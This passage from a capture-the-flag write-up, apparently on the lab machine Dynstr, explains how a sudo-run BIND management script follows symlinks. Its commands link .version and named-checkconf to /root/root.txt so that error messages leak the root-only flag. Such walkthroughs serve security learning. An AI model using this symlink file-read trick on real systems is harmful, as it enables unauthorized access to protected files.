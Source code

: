 > Unless otherwise specified, primaries that operate on files follow symbolic
> links and operate on the target of the link, rather than the link itself.

`-h` or `-L` would have been appropriate choices here.

As long as the file points to a valid file that exists and is readable by
root, then it will pass that check. What happens if I symlink `.version` to
`root.txt`? It will then try to compare the contents to the `.version` file in
`/etc/bind/named.bindmgr`.

I’ll drop into a new temp directory and try:

    
    
    bindmgr@dynstr:/dev/shm$ cd $(mktemp -d)
    bindmgr@dynstr:/tmp/tmp.3gN0fV4V9D$ ln -s /root/root.txt .version
    bindmgr@dynstr:/tmp/tmp.3gN0fV4V9D$ sudo bindmgr.sh 
    sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
    [+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/tmp.3gN0fV4V9D.
    /usr/local/bin/bindmgr.sh: line 28: [[: 5dd462205002e72de695163969729020: value too great for base (error token is "5dd462205002e72de695163969729020")
    [+] Creating /etc/bind/named.conf.bindmgr file.
    [+] Staging files to /etc/bind/named.bindmgr.
    cp: cannot stat '*': No such file or directory
    [+] Checking staged configuration.
    [-] ERROR: The generated configuration is not valid. Please fix following errors: 
        /etc/bind/named.conf.bindmgr:2: open: /etc/bind/named.bindmgr/*: file not found
    

It doesn’t like comparing the flag to a number, and prints the flag in the
error message. When InfoSecJack got first blood, this was the technique he
used.

Similarly, shortcutting `named-checkconf` to the flag will print all but the
last two characters in it’s error message:

    
    
    bindmgr@dynstr:/tmp$ cd $(mktemp -d)
    bindmgr@dynstr:/tmp/tmp.TTFzU6A8E7$ echo 1000 > .version
    bindmgr@dynstr:/tmp/tmp.TTFzU6A8E7$ ln -s /root/root.txt named-checkconf
    bindmgr@dynstr:/tmp/tmp.TTFzU6A8E7$ sudo bindmgr.sh 
    sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
    [+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/tmp.TTFzU6A8E7.
    [+] Creating /etc/bind/named.conf.bindmgr file.
    [+] Staging files to /etc/bind/named.bindmgr.
    [+] Checking staged configuration.
    [-] ERROR: The generated configuration is not valid. Please fix following errors: 
        /etc/bind/named.bindmgr/named-checkconf:1: unknown option '5dd462205002e72de6951639697290...'
        /etc/bind/named.conf.bindmgr:3: unexpected token near end of file
    

#### More Than You Even Wanted To Know About Bash Number Comparisons

You have to get a bit lucky for this one to work, as it won’t display for all
flags. When I originally solved this, the leak worked, and I got the notes
from just above. When verifying it months later for this post, it didn’t and
that’s because the newly random `root.txt` started with `f`. The flag needs to
start with a digit for this path.
